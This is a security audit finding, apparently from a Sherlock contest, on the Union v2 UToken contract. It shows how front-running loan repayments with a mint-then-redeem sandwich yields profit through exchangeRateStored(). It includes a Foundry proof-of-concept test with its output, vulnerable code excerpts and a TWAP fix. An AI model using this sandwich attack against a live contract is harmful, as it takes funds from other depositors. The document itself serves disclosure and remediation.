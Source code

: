 ozoooneth

high

# The `exchangeRateStored()` function allows front-running on repayments

## Summary

The `exchangeRateStored()` function allows to perform front-running attacks when a repayment is being executed.  

## Vulnerability Detail

Since `_repayBorrowFresh()` increases `totalRedeemable` value which affects in the final exchange rate calculation used in functions such as `mint()` and `redeem()`, an attacker could perform a front-run to any repayment by minting `UTokens` beforehand, and redeem these tokens after the front-run repayment. In this situation, the attacker would always be obtaining profits since `totalRedeemable` value is increased after every repayment.

### Proof of Concept

```solidity
    function increaseTotalSupply(uint256 _amount) private {
        daiMock.mint(address(this), _amount);
        daiMock.approve(address(uToken), _amount);
        uToken.mint(_amount);
    }

    function testMintRedeemSandwich() public {
        increaseTotalSupply(50 ether);

        vm.prank(ALICE);
        uToken.borrow(ALICE, 50 ether);
        uint256 borrowed = uToken.borrowBalanceView(ALICE);

        vm.roll(block.number + 500);

        vm.startPrank(BOB);
        daiMock.approve(address(uToken), 100 ether);
        uToken.mint(100 ether);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] BOB balance:", uToken.balanceOf(BOB));
        console.log("[DAI]    BOB balance:", daiMock.balanceOf(BOB));

        uint256 currExchangeRate = uToken.exchangeRateStored();
        console.log("[1] Exchange rate:", currExchangeRate);
        vm.stopPrank();

        vm.startPrank(ALICE);
        uint256 interest = uToken.calculatingInterest(ALICE);
        uint256 repayAmount = borrowed + interest;

        daiMock.approve(address(uToken), repayAmount);
        uToken.repayBorrow(ALICE, repayAmount);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] ALICE balance:", uToken.balanceOf(ALICE));
        console.log("[DAI]    ALICE balance:", daiMock.balanceOf(ALICE));

        currExchangeRate = uToken.exchangeRateStored();
        console.log("[2] Exchange rate:", currExchangeRate);
        vm.stopPrank();

        vm.startPrank(BOB);
        uToken.redeem(uToken.balanceOf(BOB), 0);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] BOB balance:", uToken.balanceOf(BOB));
        console.log("[DAI]    BOB balance:", daiMock.balanceOf(BOB));

        currExchangeRate = uToken.exchangeRateStored();
        console.log("[3] Exchange rate:", currExchangeRate);
    }
```

### Result

```
[PASS] testMintRedeemSandwich() (gas: 560119)
Logs:

  [UToken] Total supply: 150000000000000000000
  [UToken] BOB balance: 100000000000000000000
  [DAI]    BOB balance: 0
  [1] Exchange rate: 1000000000000000000

  [UToken] Total supply: 150000000000000000000
  [UToken] ALICE balance: 0
  [DAI]    ALICE balance: 99474750000000000000
  [2] Exchange rate: 1000084166666666666

  [UToken] Total supply: 50000000000000000000
  [UToken] BOB balance: 0
  [DAI]    BOB balance: 100008416666666666600
  [3] Exchange rate: 1000084166666666668
```

## Impact

An attacker could always get profits from front-running repayments by taking advantage of `exchangeRateStored()` calculation before a repayment is made.

## Code Snippet

[exchangeRateStored()](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L467-L470)

```solidity
function exchangeRateStored() public view returns (uint256) {
    uint256 totalSupply_ = totalSupply();
    return totalSupply_ == 0 ? initialExchangeRateMantissa : (totalRedeemable * WAD) / totalSupply_;
}
```

[_repayBorrowFresh()](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L657)

```solidity
function _repayBorrowFresh(address payer, address borrower, uint256 amount, uint256 interest) internal {
    if (getBlockNumber() != accrualBlockNumber) revert AccrueBlockParity();
    uint256 borrowedAmount = borrowBalanceStoredInternal(borrower);
    uint256 repayAmount = amount > borrowedAmount ? borrowedAmount : amount;
    if (repayAmount == 0) revert AmountZero();

    uint256 toReserveAmount;
    uint256 toRedeemableAmount;

    if (repayAmount >= interest) {
        // If the repayment amount is greater than the interest (min payment)
        bool isOverdue = checkIsOverdue(borrower);

        // Interest is split between the reserves and the uToken minters based on
        // the reserveFactorMantissa When set to WAD all the interest is paid to teh reserves.
        // any interest that isn't sent to the reserves is added to the redeemable amount
        // and can be redeemed by uToken minters.
        toReserveAmount = (interest * reserveFactorMantissa) / WAD;
        toRedeemableAmount = interest - toReserveAmount;

        // Update the total borrows to reduce by the amount of principal that has
        // been paid off
        totalBorrows -= (repayAmount - interest);

        // Update the account borrows to reflect the repayment
        accountBorrows[borrower].principal = borrowedAmount - repayAmount;
        accountBorrows[borrower].interest = 0;

        // Call update locked on the userManager to lock this borrowers stakers. This function
        // will revert if the account does not have enough vouchers to cover the repay amount. ie
        // the borrower is trying to repay more than is locked (owed)
        IUserManager(userManager).updateLocked(borrower, (repayAmount - interest).toUint96(), false);

        if (isOverdue) {
            // For borrowers that are paying back overdue balances we need to update their
            // frozen balance and the global total frozen balance on the UserManager
            IUserManager(userManager).onRepayBorrow(borrower);
        }

        if (getBorrowed(borrower) == 0) {
            // If the principal is now 0 we can reset the last repaid block to 0.
            // which indicates that the borrower has no outstanding loans.
            accountBorrows[borrower].lastRepay = 0;
        } else {
            // Save the current block number as last repaid
            accountBorrows[borrower].lastRepay = getBlockNumber();
        }
    } else {
        // For repayments that don't pay off the minimum we just need to adjust the
        // global balances and reduce the amount of interest accrued for the borrower
        toReserveAmount = (repayAmount * reserveFactorMantissa) / WAD;
        toRedeemableAmount = repayAmount - toReserveAmount;
        accountBorrows[borrower].interest = interest - repayAmount;
    }

    totalReserves += toReserveAmount;
    totalRedeemable += toRedeemableAmount;

    accountBorrows[borrower].interestIndex = borrowIndex;

    // Transfer underlying token that have been repaid and then deposit
    // then in the asset manager so they can be distributed between the
    // underlying money markets
    IERC20Upgradeable(underlying).safeTransferFrom(payer, address(this), repayAmount);
    _depositToAssetManager(repayAmount);

    emit LogRepay(payer, borrower, repayAmount);
}
```

[Usage in `mint()` function](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L714)

[Usage in `redeem()` function](https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/market/UToken.sol#L742)

## Tool used

Manual Review

## Recommendation

An approach could be implementing TWAP in order to make front-running unprofitable in this situation.